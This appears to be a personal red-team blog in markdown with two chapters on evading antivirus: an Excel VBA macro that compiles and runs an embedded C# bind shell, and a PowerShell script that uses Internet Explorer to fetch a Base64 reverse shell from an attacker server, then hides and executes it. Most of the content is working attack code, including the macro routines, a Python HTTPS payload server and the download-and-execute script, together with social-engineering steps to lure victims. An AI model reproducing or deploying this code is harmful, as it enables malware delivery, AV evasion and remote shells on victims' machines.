






# InfoSec Chronicles from Noobland
## Chapter 0: Abuse Excel VBA macro, a simple approach
###### 21/07/20 ver 1.2
In this article I will illustrate how to execute a payload loaded from a VBA macro script embedded in an Excel xlsm file.<br>
I did not implement any obfuscation\encrypting technique, this has to be consider as a POC. Beware that using well known tools will rise AV warning in most cases,
The requirement was to bypass a note AV software installed on a client machine. Following the events:
* A mail with the Excel file was sent to the client, here I play the role of the victim<br>

* The mail was not marked as Spam, the user eventually can open directly the enclosed file using the corresponding Outlook feature or download to a local folder
* Once the file has been opened of course a warning appears about the macro content. Here it is necessary to lure the user to enable the macro<br>

* If the macro is enabled the VBA script will *compile a payload*, in this case a bind shell and execute it. Here the MS firewall warn the user since I used a not common port (4444), using a port like 80 did not rise any warning<br>

* The bind shell is executed (a shell window will popup, you need of course to hide it), the AV will sandbox the exe file but actually the shell is executed<br/>

###### *The logic*
* I embedded the source code of the bind shell in the comment property of the Excel file Here the link to the MS doc: https://docs.microsoft.com/en-us/dotnet/api/microsoft.office.tools.excel.workbook.builtindocumentproperties?view=vsto-2017 and I retrived the value in the VBA script as follows:<br>
`var = ActiveWorkbook.BuiltinDocumentProperties(5)`<br>
I used a file system object to write the source code of the shell to the *user temp folder*
```
    Dim path As String
    path = Environ("Temp")
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim oFile As Object
    Set oFile = FSO.CreateTextFile(path & "\mal.cs")
```
* Then I write the content to the file
```   
   oFile.Write var
   oFile.Close
```
* I used the same technique to get the port, that is parametric, and to initialize the wscript shell object<br>

```
    Dim wSo as Object
    shellObj = ActiveWorkbook.BuiltinDocumentProperties(4)
    wSo = CreateObject(shellObj)
```
* Now we need to find a compiler on the system, I searched for the *csc.exe* since the .Net FW is installed almost on every newer Win OS and my payload is written in C#. Follows the recursive function used to accomplish the task
```
Sub FindCSC(ByVal folderPath As String)

Dim fileName As String
Dim fullFilePath As String
Dim numFolders As Long
Dim folders() As String
Dim i As Long

If Right(folderPath, 1) <> "\" Then folderPath = folderPath & "\"
fileName = Dir(folderPath & "*.*", vbDirectory)

While Len(fileName) <> 0

    If Left(fileName, 1) <> "." Then
 
        fullFilePath = folderPath & fileName
 
        If (GetAttr(fullFilePath) And vbDirectory) = vbDirectory Then
            ReDim Preserve folders(0 To numFolders) As String
            folders(numFolders) = fullFilePath
            numFolders = numFolders + 1
        Else
            If fileName = "csc.exe" Then
                CSC = folderPath & fileName 'found compiler
                Exit Sub
            End If
        End If
 
    End If
 
    fileName = Dir()

Wend

For i = 0 To numFolders - 1
    'if found we exit
    If CSC <> "" Then
        Exit For
    End If
    FindCSC folders(i)
 
Next i

End Sub
```
* Now assuming that the full path of csc.exe is stored in the CSC variable the following will compile the source file:
```
    Dim exePath As String
    exePath = """" & path & "\mal.exe" & """"
    wSo.exec CSC & " /t:exe /out:" & exePath & " " & csPath
```
* Finally I executed the bind shell
```
wSo.exec path & "\mal.exe"
```
* Once the source file has been compiled it will be deleted, if not runnin even the exe file will be deleted on closing the Excel file

###### *Conclusion*
The idea is to compile a payload on the victim machine in order to avoid to downlad it from somewhere since the corresponding code will rise alerts on AV software, same thing happens trying to run a cmd or a bat file. Not talk about powershell. Of course you have to avoid to embedd well-known code or created with msfvenom since they will be detected once compiled. Be creative and code your stuff.<br>Here you can download the Excel file and the source code of the bind shell, the file is encrypted and you need a password to open it, if you are good guy ;) you can drop me an email at **filobers[at]pm[dot]me** and I will happy to assist you<br>

## Chapter 1: Abuse IE to download and execute a payload through PS
###### 13/09/20 ver 1.0
I had to bypass a white list applications execution enviroment, lucky PS scripts were allowed on almost every machine, as well as .Net FW 3.5 executable (not signed).
The client has installed an AV solution, with an host firewall. No IPS\IDS were present on the network (now they are!).<br>
Here I will skip the social engineering part about how to lure the victim to lunch the PS script, actually this is the real magic part :). This is only a POC. Following the recipe:
1. An SSL certificate (here I will use a fake one, providing the code to bypass the error)
1. A windows client (AKA victim) machine: in this POC a win 10 pro x64 box, with a AV solution and host firewall activated
1. An attacker Linux box with Python an *old netcat version installed, here I use Parrot OS.

Since this is only a POC, as usual, not covering techniques are implemented, to cut the long story short I skip all the red teaming stuff. The execution plane was:<br>
1. The victim executes the PS script that download (though HTTPS) the encoded payload (a basic .Net Fw 3.5 reverse shell)
1. The payload is converted back to the original executable file and it is saved on the desktop user profile (yes, that is, no AV detection)
1. The exe file is hidden and executed
1. I got a shell on the attacker machine

So first of all set a HTTPS web server on the attacker machine, of course we can use a Python script:<br>
```
#!/usr/bin/python2
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://192.168.1.11:4443

import BaseHTTPServer, SimpleHTTPServer
import ssl
import sys

if len(sys.argv) > 1:
    httpd = BaseHTTPServer.HTTPServer((sys.argv[1], 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
    httpd.serve_forever()    
else:
    print "You must pass the local IP address to bind: " + sys.argv[0] + " 192.168.1.11"
```
The script location will be the document web server root, here we can host our encoded Base64 payload. In this case I used a simple reverse shell (slighty modified). You can find the source code here: https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc. Here I changed the IP and the port to point to my attacker machine, 192.168.1.7:80, then 
I encoded the compiled exe to Base64 string. You can use the application here (.Net FW 3.5 is required): https://github.com/zinzloun/InfoSec_chronicles/blob/master/Convert2Base64.exe to encode a binary file to a textual one.<br>
Once converted move the file to the HTTPS root document in order to be downloaded as shown:<br>
<br>
Now we start the web server waiting for incoming request for the encoded payload:
```
#./start-server.py 192.168.1.7
```
On the client\victim machine we have the following Powershell script:
```
"Starting Internet Explorer..."

$ie = New-Object -com InternetExplorer.Application
#true to debug 
$ie.visible=$true
#set the attacker IP###
$ip = '192.168.1.7'
#######################
$uri = "https://$ip/SimpleRevShell.txt"
$ie.navigate("$uri")
#wait until the page is ready
while($ie.ReadyState -ne 4) {start-sleep -m 100};
#Certification exception
if ($ie.document.url -Match "invalidcert")
{
    "Bypassing SSL certificate error...";
    #get the link
    $sslbypass= $ie.Document.getElementsByTagName("a") | where-object {$_.id -eq "overridelink"};
    #simulate the click
    $sslbypass.click();
    "Wait 5 seconds while page loads...";
    start-sleep -s 5;
};

#check if we reachead the server
if ($ie.Document.domain -Match $ip){ 
    
    "Successfully bypassed SSL error";
    $text = $ie.Document.Body.InnerText;
    $Desktop = [Environment]::GetFolderPath("Desktop");
    #random file name
    $rndFile = -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count 6  | % {[char]$_})
    #full payload path
    $FileRes = "$Desktop\$rndFile.exe";
	[IO.File]::WriteAllBytes($FileRes, [Convert]::FromBase64String($text));
    "Successfully extracted the content document in $FileRes";
    # Hide the file
    Set-ItemProperty -Path $FileRes -Name attributes  -Value ([io.fileattributes]::Hidden)
    "File is now hidden, trying to run the payload in 3 seconds..."
    start-sleep -s 3;
	#finally execute it
    & $FileRes

}
else{"An error occured";}
get-process iexplore | stop-process
```
The script is well commented and quite simple:
1. The AV and local FW are active
2. The encoded payload is downloaded and stored ia a variable string
3. Then reversed to a binary file, saved and hidden on the user desktop. 
4. Finally it is executed
<br>

###### *Conclusion*
We tricked the AV using IE to download the encoded payload, save on the user desktop as hidden file. Of course our finger print is evident, hiding the file is a puerile trick. But executing the payload in memory raised a malware detection on the AV. Actaully I thought to encrypt the client server comunication using, but actually this wasn't necessary since (at the moment of writining) the reverse shell is not detected. This techinique has been used successfully against 3 differents AV software. Since covering our tracks it was not a requirement we hit directly the target. Of course this article is just a working draft (as said at the moment), a cue.<br>


